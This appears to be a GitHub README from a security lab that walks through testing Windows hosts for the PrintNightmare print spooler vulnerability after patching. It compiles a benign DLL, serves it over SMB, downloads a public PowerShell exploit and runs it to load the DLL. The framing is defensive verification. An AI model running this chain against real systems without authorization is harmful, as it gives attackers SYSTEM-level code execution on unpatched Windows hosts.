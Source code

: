 # PrintNightmare: CVE-2021-1675 / CVE 2021 34527

## Test if you are still vulnerable to PrintNightmare's privesc after patching

## Pre-check
```powershell
get-service spooler
```
![image](https://user-images.githubusercontent.com/49488209/124728554-9a371b80-df07-11eb-8e91-8d30eea92e73.png)

If spooler isn't running, won't be vulnerable, you can quit here and now.
Otherwise if running, begin exploitation.

## Prepare non-Malicious DLL
Run this on your attacker box

#### Install Dependencies
sudo apt apt install gcc-mingw-w64
sudo apt-get install g++-mingw-w64-x86-64

### Write the Dll
```bash
nano nightmare.cpp
```

This DLL will just print an innocent, non-malicious file called *Printnightmare* to *C:\*

```cpp
#include <windows.h>

int printy()
{
  WinExec("cmd.exe /c echo > C:\\printnightmare.txt",0);
   return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  printy();
  return 0;
}
```

#### Compile DLL
```bash
sudo x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL nightmare.cpp         
sudo x86_64-w64-mingw32-g++ -shared -o nightmare.dll nightmare.o -Wl,--out-implib,nightmare.a
```
![image](https://user-images.githubusercontent.com/49488209/124728640-a9b66480-df07-11eb-9c9d-42e2cea1b6c7.png)



## Transfer DLL however you like, impacket's smbserver.py works
### In Kali
```bash
sudo impacket-smbserver kali . -smb2support
```
![2021-07-07_09-43](https://user-images.githubusercontent.com/49488209/124728745-bdfa6180-df07-11eb-876b-1155026cb191.png)


### Copy from Kali to in Windows
```cmd
:: I copied mine into C:\
copy \\yourip\\kali\\nightmare.dll
```
![image](https://user-images.githubusercontent.com/49488209/124728825-cf436e00-df07-11eb-9ff5-d56bc338720a.png)


## Exploit
### Pull Powershell exploit, written by John Hammond and Caleb from Huntress

```powershell
invoke-webrequest -uri "https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1" -UseBasicParsing -outfile CVE-2021-1675.ps1
```

#### Deploy exploit
```powershell
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -DLL "C:\nightmare.dll"
```
![image](https://user-images.githubusercontent.com/49488209/124728899-e2563e00-df07-11eb-9b30-96d8509caad8.png)


### check C:\ for PrintNightmare.txt
![image](https://user-images.githubusercontent.com/49488209/124728938-eb470f80-df07-11eb-9acb-03bfe59a14ec.png)

### It doesn't matter what it's contents is, it just maters that it exists. 

### For any questions, comments, and criticisms, please find us on [Twitter](https://twitter.com/jumpseclabs?lang=en)





Main Twitter [Twitter](https://twitter.com/jumpsec)
